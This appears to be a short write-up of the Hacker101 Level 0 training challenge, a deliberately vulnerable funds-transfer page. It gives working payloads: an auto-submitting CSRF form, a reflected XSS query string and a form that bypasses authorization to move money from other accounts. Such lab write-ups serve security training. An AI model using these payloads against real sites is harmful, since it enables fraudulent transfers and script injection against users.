 # [Hacker101 Level 0](https://levels-a.hacker101.com/levels/0/)

There are some hints in the page source.

## 1 General

Try to send negative amount, it shows an error but you also get a link to a [sample bug report](https://levels-a.hacker101.com/static/report0.txt).

## 2 CSRF

From the report we can see that the target doesn't have any CSRF protection, therefore we can send requests from other resources.

For example:

```html
<body onload="document.forms[0].submit()">
	<form action="http://h101levels.appspot.com/levels/0/" method="POST">
		<input type="hidden" name="amount" value="1000000">
		<input type="hidden" name="to" value="1625">
	</form>
</body>
```

## 3 Reflected XSS 

The amount input tag is vulnerable to XSS.  
You can add it to the querystring and inject XSS.  

For example:
```html
https://levels-a.hacker101.com/levels/0/?to=1258&amount=1"onmouseover="alert('XSS')
```

## 4 Authorization Bypass/Direct Object Reference

You can transfer funds from any account to yours.

For example:

```html
<form action="/levels/0/" method="POST">
    <h2>Transfer Funds</h2>
    Destination account: <input type="input" name="to" value="1258"><br>
    Amount: <input type="input" name="amount" value="1000000">
    <br>
    From: <input type="input" name="from" value="">
    <br>
    <br>
    <input type="submit" value="Transfer">
</form>
```